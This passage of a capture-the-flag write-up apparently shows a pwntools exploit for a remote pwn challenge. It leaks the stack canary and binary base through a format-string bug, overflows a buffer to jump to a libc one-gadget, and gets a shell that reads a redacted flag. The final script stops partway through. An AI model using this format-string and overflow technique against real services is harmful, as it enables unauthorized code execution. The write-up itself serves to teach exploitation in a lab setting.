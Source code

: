 That looks promising...

```python
target = libc + 0x45216

payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += target        # rip
p.sendline(payload)

p.interactive()
```

And we have shell!!!

```
$ ls
flag
pwn
readme
$ cat flag
DCTF{****************************************************************}
```

## Code

The final code that I used in the exploit:

```python
#!/usr/bin/env python2

from pwn import *

context(arch='amd64')

p = remote('206.81.24.129', 1339)

p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d

def jump_to(destination):
    payload = 'a' * 0x88
    payload += p64(canary)
    payload += p64(1337)         # rbp
    payload += p64(destination)  # rip
    p.sendline(payload)

def leak(address):
    p.recvline_contains('name?')
    p.sendline('%7$s    ' + p64(address))
    line = p.recvline()
    leak = line.split()[2]
    leak = u64(leak + '\00' * (8 - len(leak)))
    return leak

jump_to(base + 0xb6d)
setvbuf = leak(base + 0x202068)
log.info('setvbuf: ' + hex(setvbuf))

jump_to(base + 0xb6d)
gets = leak(base + 0x202060)
```